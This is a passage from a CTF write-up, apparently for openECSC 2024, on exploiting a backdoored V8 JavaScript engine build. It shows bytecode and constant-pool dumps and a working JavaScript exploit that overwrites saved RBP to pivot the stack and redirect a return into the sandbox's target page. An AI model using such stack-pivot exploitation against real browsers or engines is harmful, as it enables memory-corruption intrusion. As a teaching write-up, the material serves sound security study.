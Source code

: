 ```none
         0x259b00040140 @   40 : 3b f8 0c          Add r1, [12]
         0x259b00040143 @   43 : ca                Star0
         0x259b00040144 @   44 : 13 0e             LdaConstant [14]
         0x259b00040146 @   46 : 23 0f 0d          StaGlobal [15], [13]
         0x259b00040149 @   49 : 0e                LdaUndefined
         0x259b0004014a @   50 : af                Return
Constant pool (size = 16)
0x259b000400a9: [TrustedFixedArray]
 - map: 0x12e6000005e5 <Map(TRUSTED_FIXED_ARRAY_TYPE)>
 - length: 16
           0: 0x12e600190f3d <HeapNumber 1.1>
           1: 0x12e600190c45 <String[2]: #g0>
           2: 0x12e600190f49 <HeapNumber 2.2>
           3: 0x12e600190c55 <String[2]: #g1>
           4: 0x12e600190f55 <HeapNumber 3.3>
           5: 0x12e600190c65 <String[2]: #g3>
           6: 0x12e600190f61 <HeapNumber 4.4>
           7: 0x12e600190c75 <String[2]: #g4>
           8: 0x12e600190f6d <HeapNumber 5.5>
           9: 0x12e600190c85 <String[2]: #g5>
          10: 0x12e600190f79 <HeapNumber 6.6>
          11: 0x12e600190c95 <String[2]: #g6>
          12: 0x12e600190f85 <HeapNumber 6.61>
          13: 0x12e600190f91 <HeapNumber 1336.13>
          14: 0x12e600190f9d <HeapNumber 69.42>     <==== Nice
          15: 0x12e600002979 <String[1]: #g>
Handler Table (size = 0)
[...]
```

Perfect! Now technically we are rewriting RBP and pivoting the stack to the
address of `69.420` (i.e. `0x12e600190f9d`) after a couple of functions returns
from `Builtins_LdaConstantHandler`. The address of the constant is in the
sandbox and we have full R/W access to it through the `Sandbox` object provided
by `--sandbox-testing`. We can therefore write a ROP chain inside the object. We
can either do this *direcly* in the function or bring the `HeapNumber` reference
outside the function through a global variable.

We cannot really execute a real valid ROP chain since we don't have a leak and
therefore no gadgets yet. We could work on one, or we could simply return into
`Sandbox.targetPage` to cause an access violation (the page is not executable)
and get the flag regardless.

```js
function f(x) {
    g0 = 1.1;
    g1 = 2.2;
    g3 = 3.3;
    g4 = 4.4;
    g5 = 5.5;
    g6 = 6.60;
    g6 = 6.61;

    let a = 1336.1337 + x; // Will set accumulator to 1337.1337 if x is 1
    g = 69.420;            // Will overwrite saved RBP

    newStackAddr = Sandbox.getAddressOf(g);
}

f(0); // Does not trigger backdoor

const mem = new DataView(new Sandbox.MemoryView(0, 0x100000000));
// Point next RET instruction after stack pivot to target page
mem.setBigUint64(newStackAddr + 9, BigInt(Sandbox.targetPage), true);
```

[openecsc-2024]: https://open.ecsc2024.it/
[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg